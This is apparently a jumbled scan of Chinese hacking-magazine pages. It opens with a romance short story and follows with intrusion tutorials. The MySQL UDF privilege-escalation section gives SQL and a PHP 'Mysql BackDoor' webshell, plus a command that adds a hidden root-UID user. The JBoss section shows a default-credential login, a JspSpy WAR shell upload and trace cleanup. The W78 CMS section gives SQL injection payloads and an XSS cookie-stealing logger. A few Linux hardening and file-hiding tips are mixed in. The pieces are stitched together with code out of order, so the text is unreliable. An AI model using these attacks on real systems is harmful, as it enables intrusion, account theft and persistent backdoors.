子枫每天都会很刻苦地训练，踢球时他会全身心地投入其中，所以一开始他并没有注意到坐在角落里看着他的她。直到有一天，由于子枫的一次传球失误，球飞出场外，朝她而去，几乎是擦着她的脸颊飞过，带起的风撩动了她的长发。子枫连忙跑去问她有没有事，她只是微微笑着摇了摇头，而这甜甜的笑容却如同一颗具有魔力的种子，在子枫的心田里迅速生根、发芽。

从那以后，每当子枫踢球的时候，他都会有意无意地看一看坐在角落里的她，而她则一直默默地注视着球场，仿佛一朵静静开放的花。子枫从队友那里得知，她叫紫墨，是一个有着修长的手指，能将钢琴演奏得如同天籁的精灵。子枫幻想有一天，他可以走到她身边，听她为自己演奏一首优美的乐曲，但他也只是想想而已，因为与那些追紫墨的男生相比，他无疑是个小角色。于是他决定不去向紫墨表白，只是远远地看她一眼，然后继续踢球。夕阳西下的时候他会骑车回家，他总是会看到紫墨一个人静静地在前面走，夕阳将她白色的百褶裙染成了红色，并把她的影子拉得很长很长。每当这时，子枫总会努力按捺住要骑车送她回家的冲动，他飞快地超过紫墨，匆匆离开，在他超过紫墨的时候会在心里轻轻地说一句“紫墨，明天见”——这是他的约定。

紫墨每天都会穿着她喜欢的百褶裙出现在球场，她喜欢看子枫在球场中奔跑的样子，喜欢看他盘带、过人、一连串行云流水的假动作，喜欢看他满脸的霸气。球场就是他的王国；没有人可以忽视他的存在。

因为子枫，紫墨开始关注足球，她从所有可能的渠道收集有关足球的消息，她知道了什么叫英超、意甲、世界杯，了解了谁是梅西、卡卡、贝克汉姆。她甚至幻想有一天，在绿茵场上子枫可以教她踢足球。可是由于少女的矜持，她的这些想法一直被她埋在心底。

每次回家的时候，她总会听到子枫在身后跟队友告别的声音，然后听着他骑车从后面由远及近，她的心底会怦怦怦地一阵狂跳，她希望子枫可以停车，然后对她说“我送你回家”。她总会想，坐在他的车子上一定很幸福吧。可是每次子枫都是急匆匆地从她身边驶过，让她的希望一次又一次地落空，每次看着子枫远去的身影，她在失落之余，也会在心中轻轻说一句“子枫，明天见”——这是她的约定。

紫墨每天早上都会去音乐教室练琴。空荡荡的教室里只有她孤单瘦弱的身影，修长的手指在黑白键上轻灵地舞蹈，一连串的音符倾泻而出。她想象着子枫就在身边，她要把曲子弹给他听，于是她营造了一个音乐的世界，美丽得无与伦比，但每次音乐结束，发现仍是孤单一人时，她总会有些失落。也许上天就是爱作弄人吧，紫墨不会想到，每天她练琴的时候，门外总会有一个人静静地听着，这个人，就是子枫。自从那次子枫传球失误后，他每天都会出现在音乐教室的门口，静静地听紫墨演奏优美的乐曲。他想象着那是为他而弹，他仿佛被带入了另一个世界，在那里，一切都很美。

每周日上午，紫墨都会参加学校在市礼堂举行的演出，子枫都会坐在台下的角落里听她演奏，仿佛天地之间只剩下他和她，他在想，她在为他演奏，而紫墨知道他在哪个角落里；所以总会在心里说：“子枫，这首曲子为你而弹。”

两个人都怀有对对方的向往，可是又都选择了沉默，任凭心田那颗破土而出的种子肆意生长。直到有一天，那颗原本小小的种子长成了参天大树，它的根系占据了整个心田，他们都决定，要向对方表白。

那是外省足球队慕名来向子枫所在足球队挑战的日子，而那天也恰好是紫墨参加全国钢琴比赛市选拔赛的日子。子枫决定，在胜利之后，就跑过去向坐在角落里的紫墨表白，对于他来说，获胜易如反掌。而紫墨，她也想着在拿到参赛权的时候告诉子枫，她喜欢他。他们两个人都相信，对方会出现在自己赛场外的那熟悉的角落里，并且由于对方的出现，自己的表现会更为出色。但是，老天就是爱作弄人，由于他们那段时间都在准备各自的比赛，竟然不知道对方也要比赛，更重要的是，他们的比赛同时举行。

球赛开始时，子枫向那个角落里看去，发现没有人。比赛开始后，他不断地向场外张望，寻找紫墨的身影，以致于踢起球来心不在焉，失去了往日主宰球场的能力。球场如战场，核心人物的战斗力丧失导致了他们的全线溃败，他们只能眼睁睁地看着对方攻克自己的大门。比赛之后，子枫默然离场，没有人知道他去了哪里。直到第二天，他出现在球场，向队友们说以后不会再踢球了，然后拥抱告别。

在市礼堂举行的钢琴比赛上，紫墨优雅地走上舞台，向台下翘盼的时候她偷偷向那个角落里看了一眼——那里是空空的，没有子枫。弹琴的时候，她的精力根本无法集中，原本很熟悉的曲目也被她演奏得错误百出。她知道她不可能取得参赛权了，演奏结束便跑出了礼堂，跑回了家，躲在屋里哭了很久。晚上她打电话给老师说不再弹琴了，老师感到很惊讶，但是听着紫墨坚决的语气，老师只能表示惋惜。

在之后的日子里，子枫依旧会去市礼堂看演出，紫墨依然会到球场看比赛，只是，礼堂中没有了可以用音乐营造完美世界的精灵，在操场上没有了可以主宰球场的风云人物。

一切都在不断地重复中过去……

几年后的一天，已上大学的紫墨回到母校。她走在操场上，看到校足球队在训练，而在那个她当年常坐的角落里坐着一个女孩，女孩正默默地注视着球场。她在看谁呢？紫墨想，也许和当初的自己一样吧。出球场的时候，她与一男一女擦肩而过，那个女孩挽着男孩的胳膊，一脸幸福地听着男孩给她讲自己当年纵横球场的故事。紫墨觉得那个男孩很眼熟，转身向他看去，原来，他是子枫。子枫也考上了大学，这次是领着女友来看自己当初生活过的地方的。这时，紫墨的手机响了，有条未读短信，打开，上面写着：“小墨，我在火车上，就要到你的家乡了，你来接我好吗？我要看看你生活过的地方。”紫墨笑笑，幸福地离开，同时还回复了一条短信：“青春是一首晦涩难懂的诗。”

## linux下的mysql提权

EchoEye/侯其涛

这次给大家带来的是linux下的mysql提权。相信在windows下的提权大家都了解，当然随着mysql版本的提高，在win下的提权条件也变得越来越苛刻。比如在5.0以上版本，必须放在系统目录，而且在用`Create Function sys_exec returns string soname 'lib_mysqludf_sys.dll'`命令的时候，不能带dll的绝对路径，要直接跟dll文件名，我们可以把dll放在system或者win目录下，直接用dll名字就可以。而到了5.1版本开始必须把udf.dll文件放到MySQL安装目录下的lib/plugin文件夹下才能创建自定义函数，并且该目录默认是没有的，需要我们的shell有权限去建立。OK，简单回顾了下win下的mysql提权，下面进入正题这次说的是linux下的提权，使用的同样是Create Function命令，也是通过上传文件的方法提权，不过linux下的提权和win下略有不同，下面我会慢慢细说。

```bash
1. gcc -g -c raptor_udf2.c
2. gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```


让我想研究下linux下mysql提权的起因是我在某论坛上看到了一个帖子，写的就是关于mysql提权的，但是楼主只放出了工具，并没有说怎么使用，我在追问楼主后也没得到一个满意的答案，所以我就决定自己动手试试。为了方便，我直接使用的BT5，因为啥都是安装好的，Mysql的版本是MySQL 5.1.41。我们首先打开mysql，如图1，选择mysql start即可，接着是打开apache，直接在终端输入`/etc/init.d/apache2 restart`，显示`* Restarting web server apache2`，说明开启成功。默认的web路径：`/var/www/`，为了方便测试，我直接上传个phpspy来操作，到mysql manager下，输入账号root和密码toor，如图2。好了，准备工作到此结束，我们打开第一个提权工具，其中写道了编译的命令：

我们直接把工具放到BT5中，执行上述命令，就会生成文件raptor_udf.so，我们将文件放到“/usr/lib/mysql/plugin/”，即可，下面就是在webshell里面执行了`create function do_system returns integer soname 'raptor_udf.so';`，结果如图3，返回错误“Error: Can't find symbol 'do_system_init' in library”，看来是失败了。通过查看我发现，这个文件有个版本的限制，显示的是Tested on MySQL 4.0.17，然后我就百度了下，查到了如下内容：“Marco Ivaldi 几年前曾经发表过一个 raptor_udf2.c，演示了如何利用mysql udf入侵系统，但是这个mysql udf也演示了一个调用系统命令的方式。但是这一插件目前应该不能兼容mysql 5.0+，主”

## UNIX黑客行

要是已经不符合新的 MySQL UDF 的规范了，并且没有返回结果。看来的确是版本问题，文章同样给出了一个新的 UDF 包，我们直接下载后打开，会发现有好几个文件，直接看 `install.sh`，内容为：

```bash
LIBDIR=/usr/lib
install:
  gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o $(LIBDIR)/lib_mysqludf_sys.so
```

```sql
SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
```

到此，几个函数都成功建立了，其中我们比较常用的是 `sys_eval`。当然我们可以先查看下函数的建立情况，命令为：

```sql
select * from mysql.func;
```

执行结果如图6，可以看到我们建立的函数已经显示在其中了。接下来就是利用了，这里我们使用 `sys_eval` 即可，具体命令是：

```sql
SELECT sys_eval('id');
```

我们可以直接通过 `make` 命令，这样就直接生成了文件，并且放在了 `/usr/lib` 目录下。然后我们执行命令 `CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';` 依旧显示错误，如图4。根据提示，应该是需要放到 `/usr/lib/mysql/plugin` 下，我们把文件拷贝过去，再次执行命令，结果为图5。这次就执行成功了，但这个 UDF 不止这么一个函数，我们继续执行：

```sql
CREATE FUNCTION sys_get RETURNS string ...
```

显示结果如图7，OK，现在已经是 root 权限了。我们再执行下添加用户的命令：

```sql
SELECT sys_eval('useradd -u 0 -o -g root -G root -d /home/user1 user1');
```

执行结果如图8，这说明已经执行成功了。我们可以使用命令 `passwd user1` 给已创建的用户 `user1` 设置密码，这时候用户已经被加到了 root 组。OK，到此基本用法已经介绍完毕了，但是有个缺陷：需要我们自己上传文件到指定目录，然后还要执行几个 SQL 命令去执行，这样对于以后的使用会带来很多麻烦。我们是否可以像 Windows 下提权工具一样，写出一个自己的工具呢？

图8

这里我以 Linx 写的 Windows 下的 MySQL 提权工具为模板，写了一个自己的工具，下面贴出代码，并做一个基本解释：

```php
<?
extract($_POST);
extract($_GET);
$action="mysql";
$mysql_hostname=$mysql_hostname?$mysql_hostname:"127.0.0.1";
$mysql_username=$mysql_username?$mysql_username:"root";
$post_sql=$post_sql?$post_sql:"SELECT sys_eval('id')";
$mysql_dbname=$mysql_dbname?$mysql_dbname:"mysql";
if($install){
  $link = mysql_connect($mysql_hostname,$mysql_username,$mysql_passwd) or die(mysql_error());
  mysql_select_db($mysql_dbname,$link) or die(mysql_error());
  @mysql_query("DROP TABLE udf_temp",$link) or die(mysql_error());
  $query="CREATE TABLE udf_temp (udf BLOB)";
  if(!$result=mysql_query($query,$link)){
    die("错误:创建临时表udf_temp出错".mysql_error());
  }else{
    $code=get_code();
    $query="INSERT into udf_temp(udf) values (CONVERT($code,CHAR))";
    if(!mysql_query($query,$link)){
      die("错误:插入DLL数据出错".mysql_error());
    }else{
      $dllname="lib_mysqludf_sys.so";
      if(file_exists("/usr/lib/")) $dir="/usr/lib/";
      elseif(file_exists("/usr/lib/mysql/")) $dir="/usr/lib/mysql/";
      $query="SELECT udf FROM udf_temp INTO DUMPFILE '$dir/$dllname'";
      if(!mysql_query($query,$link)){
        // ...
      }
    }
  }
}
?>
```

```php
die(mysql_error());//连接mysql数据库
mysql_select_db($mysql_dbname,$link) or die(mysql_error());
@mysql_query("DROP TABLE udf_temp",$link);//这里，如果表udf_temp存在的话，直接删除
$query="CREATE TABLE udf_temp (udf BLOB)";//创建表
if(!$result=mysql_query($query,$link))//如果出现错误，显示错误提示
  die("错误:创建临时表udf_temp出错".mysql_error());
else{
  $code=get_code();
  $query="INSERT into udf_temp(udf) values (CONVERT($code,CHAR))";//插入数据
  if(!mysql_query($query,$link))
    die("错误:插入DLL数据出错".mysql_error());
  else{
    $dllname="lib_mysqludf_sys.so";
    if(file_exists('/usr/lib/')) $dir="/usr/lib/";
    elseif(file_exists('/usr/lib/mysql/')) $dir="/usr/lib/mysql/";//把文件导入到指定文件夹
    $query="SELECT udf FROM udf_temp INTO DUMPFILE '$dir/$dllname'";//似乎必须导入到这个文件夹，但需要有权限
    if(!mysql_query($query,$link)){
      // ...
    }
  }
}
```

```php
//mysql_query('DROP TABLE udf_temp', $link)
or die(mysql_error());

die("导出DLL文件出错，可能无权限或者 $dir 已经存在。".mysql_error());

else
{
    echo "DLL已成功导出到".$dir."<br>";
}

mysql_query('DROP TABLE udf_temp', $link) or die(mysql_error());

$result=mysql_query('DROP FUNCTION IF EXISTS lib_mysqludf_sys_info', $link) or die(mysql_error());
$result=mysql_query('DROP FUNCTION IF EXISTS sys_get', $link) or die(mysql_error());
$result=mysql_query('DROP FUNCTION IF EXISTS sys_set', $link) or die(mysql_error());
$result=mysql_query('DROP FUNCTION IF EXISTS sys_exec', $link) or die(mysql_error());
$result=mysql_query('DROP FUNCTION IF EXISTS sys_eval', $link) or die(mysql_error());

$result=mysql_query('CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME "lib_mysqludf_sys.so"', $link) or die(mysql_error());
$result=mysql_query('CREATE FUNCTION sys_get RETURNS string SONAME "lib_mysqludf_sys.so"', $link) or die(mysql_error());
$result=mysql_query('CREATE FUNCTION sys_set RETURNS int SONAME "lib_mysqludf_sys.so"', $link) or die(mysql_error());
$result=mysql_query('CREATE FUNCTION sys_exec RETURNS int SONAME "lib_mysqludf_sys.so"', $link) or die(mysql_error());
$result=mysql_query('CREATE FUNCTION sys_eval RETURNS string SONAME "lib_mysqludf_sys.so"', $link) or die(mysql_error());
```

```php
//这部分是先删除函数，然后再重新建立函数

if($result){
    echo "MysqlDoor安装成功! <br><a href=?>返回</a>"; //如果没有错误，提示安装成功
    exit();
}
?>
<meta http-equiv="content-type" content="text/html;charset=gb2312">
<title>Linux Mysql Door</title>
<form method='post' action='<?echo $_SERVER['PHP_SELF']?>'>
Host: <input name="mysql_hostname" value="<?echo $mysql_hostname;?>" type="text" class="input" size="15">
User: <input name="mysql_username" value="<?echo $mysql_username;?>" type="text" class="input" size="10">
Password: <input type="password" name="mysql_passwd" value="<?echo $mysql_passwd;?>" class="input" size="10">
DB: <input name="mysql_dbname" value="<?echo $mysql_dbname;?>" type="text" class="input" size="10">
&nbsp;&nbsp;<input name="install" type="submit" value="自动安装Mysql BackDoor">

<br><br>
输入SQL命令: <br>
<textarea name="post_sql" cols="50" rows="8"><?echo stripslashes($post_sql) ?></textarea>

<br><br>
<input name="" type="submit" value="执行SQL语句">
</form><br>返回信息:
```

```php
<?
if ($_POST['post_sql']) {
  $link = mysql_connect($mysql_hostname,$mysql_username,$mysql_passwd) or die(mysql_error());
  if($mysql_dbname) mysql_select_db($mysql_dbname,$link) or die(mysql_error());
  $query=stripslashes($post_sql);
  $result=mysql_query($query,$link) or die(mysql_error());
}
?>

<br>
<textarea name="post_sql" cols="80" rows="15">
<?
echo ($result) ? "SQL语句成功执行 $result\n\n" : "出错 $result\n\n".mysql_error();
while ($row = @mysql_fetch_array($result)) {
  print_r($row);
}
//mysql_free_result($result)
?>
</textarea>

<?
function get_code() {
  return 'XXXXXXXXXXXXXX';
}
?>

<pre>
  EchoEye Mysql BackDoor
  2011-12-25 Happy christmas!
</pre>
```

执行：`SELECT sys_eval('id');`  
卸载：`drop function sys_eval;`  
安装：`CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';`

大部分代码都做了备注。其中 XXXXX 处的十六进制代码形成方法如下：

我使用的是本机搭建 MySQL，然后将 so 文件复制到某一目录，再打开 MySQL 执行如下命令：

```sql
select hex(load_file('c:/windows/temp/xxoo.so')) into outfile 'c:/windows/temp/xxoo.txt';
```

这样，`xxoo.txt` 文件就是 so 文件的十六进制了。然后将这段代码放入上面的指定位置即可。下面我们试一下效果。上传提权木马后，打开界面如图9。

图9

添加密码，点击“自动安装”即可，接下来就是执行命令了。下面给出了提示，我们直接执行自带命令试试，结果如图10。别的命令大家可以自己测试。

图10

到此 Linux 下的 MySQL 提权就已经介绍完毕了，相关工具我会打包给大家，如果有问题也欢迎大家去论坛找我交流。

填写 MySQL 的管理员密码，点击“自动安装MysqlDoor”后，将会在 MySQL 上增加 `sys_eval` 函数，同时还会安装别的几个函数，不过最常用的就是这个啦~

语句参考：

### 在Linux中快速加密文件

对于重要文件来说，我们通常不希望别人随意查看，保护文件最好的办法是对其进行加密处理。在 Windows 环境中，可用的加密工具种类繁多，而且功能强大、易于使用。但是，随着 Linux 的逐渐流行，越来越多的人都在使用和研究 Linux 系统。在 Linux 环境中如何对文件进行加密操作呢？实际上，即使不使用专业的加密软件，利用 Linux 本身的一些使用技巧，也完全可以“赤手空拳”地实现文件加密操作。

#### 利用Vi程序加密文件

在 Linux 环境中，Vi 是最常用的文件编辑工具。实际上，在 Vi 的命令行中，有一个参数是给文件加密的。例如在 `/tmp` 目录下输入命令 `vi hello.txt`，执行后进入 Vi 编辑环境，在其中可以自由编辑文件。之后点击 `Esc` 键结束编辑操作，接着输入 `:X`，注意其中的 X 参数应该大写，如果设为小写 `x` 的话，就会直接退出 Vi 程序。回车后 Vi 会提示您输入密码，按照屏幕提示输入两次密码即可，现在该 `test.txt` 文件就已经加密完成了。

当我们使用 Vi 命令再次打开该文件时，Vi 就会提示输入密码；如果输入的是错误密码，就会在 Vi 编辑环境出现无法识别的乱码信息。只有输入预设的正确密码，才能显示文件正常内容。实际上，就算是 root 用户也无法直接观看经 Vi 加密过的文件；即使使用其它编辑工具直接打开加密文件，同样只能看到乱码信息，这充分说明 Vi 的加密功能还是很安全的。

#### 巧用颜色加密文件

当我们在 Linux 环境中执行 `ls` 命令，就可以显示当前目录下的文件和文件夹。在默认情况下，不同文件和文件夹显示颜色不同。例如绿色表示可执行文件，黄色表示硬件设备文件，白色表示文本文件，蓝色表示文件夹等。当然，我们可以自定义文件显示色彩。其配置文件路径是 `/etc/DIR_COLORS`，可以利用 Vi 来编辑该文件。在 Linux 中执行命令 `vi /etc/DIR_COLORS`，在 Vi 编辑环境中显示该文件内容，将光标移动到文件下部，就可以看到各种文件类型以及对应显示色彩。

例如对于其中的 `81 .zip 01;31` 字符串来说，`81` 表示文件类型序列，`.zip` 表示 zip 类型压缩文件，`01;31` 说明该类型显示色彩是红色。实际上，在 `DIR_COLORS` 文件中，有专门注释信息说明和颜色匹配的数字信息。

这里我们以添加扩展名为 `kc` 的文件为例，假设将其显示颜色定义为绿色。首先用 Vi 打开 `/etc/DIR_COLORS` 文件，将光标移动到文件底部，在文件类型色彩定义栏中添加一行字符串 `91 .kc 01;32`，假设其文件类型序列为 `91`，之后保存文件。在 Linux 中建立后缀名为 `.kc` 的文件，就会发现该文件以红色显示了。

经过上述原理分析，已经说明了文件色彩显示的原理。但是，假设我们不按正常方法编辑文件色彩参数，例如将上述 `.kc` 类型文件色彩配置信息修改成 `91 .kc 01m32`，也就是故意将表示色彩的数字写错，会发生什么情况呢？假设在当前目录下使用 Vi 程序建立一个名为 `p.kc` 的文件，在其中输入一些数据。之后当使用 `ls` 命令显示目录结构时，却发现刚才建立的 `p.kc` 文件变成了 `32ms.kc` 文件。当使用 Vi 命令试图打开 `32ms.kc` 文件时，发现其内容为空，根本不是刚才创建的 `p.kc` 文件。原来的 `p.kc` 文件彻底“隐身”了。

因为我们知道具体文件名，就执行命令 `vi p.kc`，却发现又成功打开了 `p.kc` 文件，其中数据完整无缺。这到底是什么原因造成的呢？原来问题就出在 `ls` 自身。实际上，当使用 `ls` 命令时，其自身默认附带了 `--color` 参数，该参数用途就是将文件和文件夹色彩显示出来。而 `/etc/DIR_COLORS` 文件中错误的 `91 .kc 01m32` 配置信息，使 `ls` 无法正常将 `.kc` 类型文件显示出来，就出现了原文件“隐身”，而 `ls` 命令自作聪明地显示出一个奇怪文件。但这也是一种巧妙的加密隐藏文件方式。

实际上，当执行命令 `ls --color=none` 显示目录结构时，就可以看到上述隐藏的 `p.kc` 文件了。利用 `ls` 命令的 `--color=none` 参数将文件色彩显示功能关闭，就可以显示所有文件。此外，我们还可以换一种方法来修改 `/etc/DIR_COLORS` 文件，假设将其中 `kc` 类型文件的色彩参数修改为 `91 .kc 40;30`，这样就将 `kc` 类型文件色彩和 Linux 默认背景色设置一致，从而巧妙隐藏该类文件。

#### 利用特殊文件名加密文件

在 Linux 环境中，我们建立一个以 `-` 符号开头的文件，例如执行命令 `cat > -test.txt`，就创建了一个名称为 `-test.txt` 的文件。之后使用 `ls` 命令显示当前的目录。结构，就会看到该文件。当我们试图使用“rm”命令来删除该文件时，却发现无法删除该文件，原来系统将该文件名前面的“-”当作“rm”命令的参数了。既然不能正常删除，那么能否对该文件进行正常的编辑呢？执行“vi -test.txt”命令，系统却出现“找不到标签（Tag）：est.txt”的提示，而无法将其正常打开进行编辑，使用了其它几乎所有的编辑工具，都无法打开该文件。看来只要将文件名前面加上“-”符号，该文件就会变成无法删除、无法使用的奇怪文件了，如果将重要的数据保存在该文件中，就可以实现巧妙的加密效果。不过我们怎么才能正常地访问该文件呢？其实方法很简单，只需在文件名称的前面加上“--”字符串即可。例如执行命令“vi -- -test.txt”，就可以将其正常打开了，这也是一种快捷的文件加密方式。

### 在Linux中限制ROOT权限的小技巧

刘景云

在Linux中，Root用户拥有至高无上的权利，使用Root身份登录后，几乎可以在系统中做任何事情。出于对系统安全的考虑，我们需要对Root权限进行适当的控制。这样即使黑客拿到了Root权限，也同样对系统无可奈何，这不失为提高系统安全性的良策。这里以RedHat Linux为例，来说明具体的操作方法。

我们知道，在Windows中可以通过远程桌面、终端服务等方式，对远程电脑进行全面控制。在Linux中与之对应的远程控制方法是SSH服务。在Linux环境中，Root用户是可以直接使用SSH服务登录远程电脑的。这样黑客在获得了Root权限后，同样可以使用SSH连接工具，直接登录到Linux服务器上。如何才能排除这一安全隐患，限制Root用户的SSH登录权限呢？在提示符下执行命令“vi /etc/ssh/sshd_config”，打开SSH服务配置文件，在其中添加“PermitRootLogin no”一行，之后保存文件即可，注意Linux是区分大小写的。之后执行命令“service sshd restart”，重新启动SSHD服务，之后即可禁止ROOT用户使用SSH连接远程服务器了。

当然，您也可以执行命令“vi /etc/pam.d/sshd”，在该文件第一行添加“auth required /lib/security/pam_listfile.so item=user sense=deny file=/etc/sshduser onerr=succeed”，之后执行命令“vi /etc/sshduser”，在打开的文件中加入“root”，这样可以将ROOT用户添加到“/etc/sshduser”文件中。这里使用“pam_listfile.so”认证模块对用户进行认证，采用的认证方式是拒绝，所使用的认证文件是“/etc/sshduser”，因为Root用户已经包含在其中，因此认证无法通过，从而导致认证账号密码失效，结束认证过程。这样，当使用Root权限登录SSH服务时，自然无法通过认证。

在Linux环境中，除了直接使用Root身份登录系统、执行各种管理操作外，普通用户也可以使用“su”命令获得Root管理权限，这同样会给系统安全带来不安全因素。因此需要对执行“su”命令的用户进行控制，只能让特定的用户才可以使用“su”命令来获得Root权限，就显得比较重要了。和“su”命令相关的认证模块是“/etc/pam.d/su”。在提示符下执行命令“vi /etc/pam.d/su”；在打开的文件中删除“# auth required pam_wheel.so use_uid”中的“#”符号，表示取消该行的注释功能，其作用是使用“pam_wheel.so”认证模块对当前用户的UID进行认证，如果不属于“wheel”用户组，就拒绝其使用“su”命令。这样，用户要使用“su”命令切换权限，就必须将自身添加到“wheel”组中，否则系统拒绝其操作。

## 一个人的战争

## JBoss拿shell一例

在检测一个网站C段机器时发现有一台服务器用的是JBoss，以前没见过，就没怎么在意，简单记录了一下就去看其它机器了。C段的其它机器看了一遍没什么突破口，只能回过头来仔细看看那台装了JBoss的机子，最后幸运地获得了shell。把拿shell的方法笔记下，没用JBoss拿过shell的权当看个过程，没任何技术含量，高手和大牛请直接跳过。

简简单单介绍下JBoss。JBoss是全世界开发者共同努力的成果，一个基于J2EE的开放源代码的应用服务器。因为JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用它而不用支付费用。2006年，JBoss公司被Red Hat公司收购。JBoss是一个管理EJB的容器和服务器，支持EJB 1.1、EJB 2.0和EJB3.0的规范。但JBoss核心服务不包括支持Servlet/JSP的WEB容器，一般与Tomcat或Jetty绑定使用。


虽然JBoss的使用量比较少，但利用它的听说都是中型网站或比较大型点的网站。用浏览器访问目标机器IP的8080端口，看到的页面如图1。

全是英文，有点晕，不过在页面上看到了“Manager”、“Administration”等字眼，猜测是管理JBoss的地方。既然是管理，应该有登录的地方吧。点页面上的“Administration Console”链接，果然出来了一个登录页面，如图2。登录的地方出来了，但不知道用户名和密码啊。到网上搜索了下JBoss的默认管理用户名和密码，有人说是admin、admin，我还以为是root、root呢，嘿嘿。用用户名admin，密码admin尝试登录，居然进去了！这人品，没得说了——_——

登录后的管理页面如图3。


功能看来还挺多，但我关心的是怎样获得shell。到网上搜索了下JBoss拿shell的方法，说是要用void addURL()函数从网上下载WAR文件，需要把自己的WAR文件先放到网上，比较麻烦，而且我简单找了下目标服务器的JBoss管理页面，根本没找到void addURL()函数。再看了下他的步骤截图，他介绍的JBoss明显和我遇到的这个界面不同，猜测可能是软件版本不同。只能自己找办法了，不过他方法中上传WAR文件的思路也启发了我：找可以上传WAR文件的地方，和Tomcat后台获得shell的方法也类似。

在目标JBoss管理页面的“JBoss AS 5 (default)”下的“Applications”下有个“Web Application (WAR)”，看到有“WAR”，点开看看，打开的页面如图4。


看到一个按钮“Add a new resource”，字面理解为添加一个新资源，点它，出来了“Add New Web Application (WAR)”的上传WAR文件的地方，如图5。


图5


图7

需要一个包含了jsp shell的WAR文件，shell文件我用的是JspSpy。在安装了JDK的机子上输入命令“jar cvf x.war JspSpy.jsp”，把JspSpy.jsp打包进x.war。通过“浏览”按钮选择x.war，点“Continue”按钮进行上传，提示“Resource x.war created successfully!”，“Web Application (WAR)”列表中多了我刚上传的x.war，并且Status为UP，已经启动了（图6）。shell地址为http://x.x.x.x:8080/x/JspSpy.jsp，如图7。用shell执行命令whoami，显示是administrator权限（图8）。


图8


图6


图9

至此，利用JBoss拿shell的过程完成，剩下的就不是本文要说的内容了。

你上传的war文件管理员可以在“Web Application (WAR)”列表中看到，所以用完shell后最好删除掉你上传的war文件。以上传的x.war为例，点击x.war，选择“Control”选项卡，点“Stop”按钮来停止x.war，当下面的“Status”显示为Successful的时候，就说明x.war停止成功了（图9），可以来删除它了。点“Web Application (WAR)s”，然后点Web Application (WAR)列表中x.war右面的“Delete”按钮，看到“Successfully deleted Web Application (WAR) 'x.war'.”的提示后，就说明已经干净彻底地删除上传的x.war了，如图10。


图10

## W78 企业网站管理系统 全角度分析

电影《让子弹飞》中经典台词颇多，其中有一句“我有九种方法弄死你”，我们今天就要通过全面的分析，用各种方法拿下W78企业网站管理系统。该系统适合于中小企业介绍产品使用，应用也很广泛（如图1），用关键字“inurl:shop-more.asp?id=”在百度或谷歌里可以找到很多使用这套系统的网站。其实该系统早些时候就爆出过注入漏洞，但利用价值不是很高。其实这套系统存在诸多安全薄弱环节，今天我们就来仔细地分析一下。


图1

#### 一、进后台

无论入侵什么系统，首先应该有个明确的思路，一般是进后台，拿webshell。当然进后台的方法有很多种，拿webshell的方法也有很多种。除此之外还有不进后台拿webshell的方法也有很多。这些方法几乎都可以在这套系统中体现，可以说非常适合作为渗透教学的示范站。

- 进后台方法1：默认密码和SQL注入。该系统的后台为/admin/，默认用户名密码都为admin，如果幸运，管理员没改密码就可以轻松进入后台。当然这样的情况比较少。再来看SQL注入漏洞，about.asp、shopmore.asp等多处页面存在注入漏洞，主要由于过滤不严造成。about.asp中注入关键代码没有任何过滤就带入查询（如图2）。加单引号检测果然出错（如图3）。既然存在注入漏洞，剩下的工作对于文友们应该不是什么难事，手工猜解或直接扔给啊D都可以，得到用户名和密码散列后，到MD5破解网站破解密码散列。除此之外还存在搜索框注入漏洞，直接在搜索框里输入“%' and 1=2 union select 1,admin,3,4,5,6,password,8,9,10 from admin where '%'='”就可以得到用户名和密码散列。限于篇幅，这里就不再作为重点来讲了，不明白的可以翻看以前的黑客文档案。

- 方法2：数据库下载。该系统的默认数据库地址为/data/#sze7xiaohu.mdb，虽然加了#防下载，但是很容易突破，只要将#转换为%23即可（如图4）。

```asp
<%
exec="select * from [about] where id='"& request.QueryString("id")
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```

图3


图4


图5

```html
<tr>
  <td>留言等级</td>
  <td><label>
    <select name="xx" id="xx">
      <option value="普通顾客">普通顾客</option>
      <option value="建议">建议</option>
      <option value="咨询">咨询</option>
      <option value="合作">合作</option>
      <option value="其它">其它</option>
    </select>
  </label></td>
</tr>
<!-- 没有任何过滤 -->
<tr><td>留言姓名</td><td><input name="name" type="text" size="50" /></td></tr>
<tr><td>联系电话</td><td><input name="tel" type="text" size="50" /></td></tr>
<tr><td>联系邮箱</td><td><input name="mail" type="text" size="50" /></td></tr>
<tr><td>留言内容</td><td><textarea name="body" cols="50" rows="6"></textarea></td></tr>
```

图6

## 一个人的战争

下载到数据库后查看管理员字段，得到用户名和密码散列（如图5），在MD5破解网站破解密码散列后，进入后台。

- 方法3：即使我们用以上两种方法得到了用户名和密码散列，也未必一定能将密码散列破解成功。那是不是就没有办法了？当然不是，弹出跨站漏洞XSS。这套系统也存在跨站漏洞，来看留言板页面ly.asp代码（如图6），没有对用户输入的内容进行任何过滤，造成跨站漏洞。现在来证实一下，点击首页的“在线留言”，在“留言标题”中填入“`<script>alert("hello")</script>`”，其他随便填，保存（如图7）。这样当管理员在后台审核留言时就会弹出提示框（如图8）。证实了跨站漏洞的存在，怎么利用它进入后台呢？答案是抓取管理员cookie，具体步骤为：

- 第一步，将以下代码（如图9）保存为asp格式上传到自己的空间里，这里保存为co.asp。记下该文件URL。
- 第二步，在“在线留言”页面中的“留言标题”中输入：

```html
<script>document.write("");</script>
```

```asp
if Request("c")<>"" then
  Set fs = CreateObject("Scripting.FileSystemObject")
  Set outfile=fs.OpenTextFile(server.mappath("a.txt"),8,True)
  outfile.WriteLine Request("c")
  outfile.close
  Set fs = Nothing
end if
```


```html
<!--#include file="utf-8.asp"-->
<!--#include file="conn.asp"-->
<!--#include file="session.asp"-->
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>企业网站后台管理</title>
```


